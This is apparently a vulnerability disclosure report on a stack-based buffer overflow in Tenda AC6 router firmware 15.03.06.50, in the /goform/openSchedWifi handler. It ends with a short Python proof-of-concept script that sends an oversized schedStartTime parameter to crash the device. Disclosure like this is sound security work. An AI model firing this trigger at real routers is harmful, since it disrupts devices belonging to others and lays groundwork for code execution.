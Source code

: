 # Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A critical stack-based buffer overflow vulnerability has been discovered in the Tenda AC6 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/openSchedWifi` HTTP request handler and can be exploited by remote attackers to achieve code execution or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow exists in the HTTP request handler for the `/goform/openSchedWifi` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `schedStartTime`, `schedEndTime`.

![alt text](image-3.png)

![alt text](image.png)

## poc
![alt text](image-1.png)
![alt text](image-2.png)

## reproduce

```python
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'schedWifiEnable': '0', 'schedStartTime': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x40 * b'A' + b'DOIT'

send_payload("http://10.10.10.1/goform/openSchedWifi", payload)
```